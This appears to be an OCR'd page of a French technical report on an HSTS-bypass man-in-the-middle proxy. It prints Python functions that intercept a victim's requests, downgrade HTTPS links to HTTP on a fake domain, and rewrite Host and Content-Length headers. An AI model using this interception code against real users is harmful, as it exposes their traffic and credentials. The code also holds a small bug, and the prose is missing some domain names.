 La fonction traitant les différentes requêtes est celle-ci :

\begin{verbatim}
def __recv(self, csock):
        fw_sock = self.__csockets[csock]
        data = csock.recv(BUFFER_SIZE)
        if len(data) == 0:
            self.__close_conn(csock)
            self.__close_conn(fw_sock)
        else:
            print(data)

            if fw_sock is None:
                m = re.search(b'Host: (\S+)', data)
                if m is not None and m.group(1) == FAKE_HOST:
                    re.sub(b'Host: (\S+)',
                           b'Host: ' + bytes(FORWARD_HOST_HSTS), data)
                    self.__new_https_conn(csock)
                else:
                    self.__new_http_conn(csock)
                fw_sock = self.__csockets[csock]
            data = self.__replace_https_to_http(data)
            data = self.__replace_host(data)
            data = self.__replace_content_length(data)
            fw_sock.send(data)
\end{verbatim}

À la fin, on transforme tous les liens HTTPS trouvés en HTTP en remplaçant le nom de domaine  par le faux nom de domaine , on met l'entête Host vers le bon domaine et on recalcule la taille de la requête (entête Content-Lenght)

\subparagraph{Transformation des liens \\}

Dans cette fonction, nous utilisons une expression régulière afin de remplacer tous les liens  en .

\begin{verbatim}
def __replace_https_to_http(self, data):
    return re.sub(b'https://' + bytes(FORWARD_HOST_HSTS),
                  b'http://' + bytes(FAKE_HOST), data)
\end{verbatim}

\subparagraph{Modification de l'entête Host}

Lorsque la victime est redirigée vers un lien , l'entête Host de ses requêtes sera erronée. Cette fonction modifie cette entête pour que le serveur puisse recevoir un Host correct.

\begin{verbatim}
def __replace_host(self, data):
    return re.sub(b'Host: ' + bytes(FAKE_HOST),
                  b'Host: ' + bytes(FORWARD_HOST_HSTS), data)
\end{verbatim}


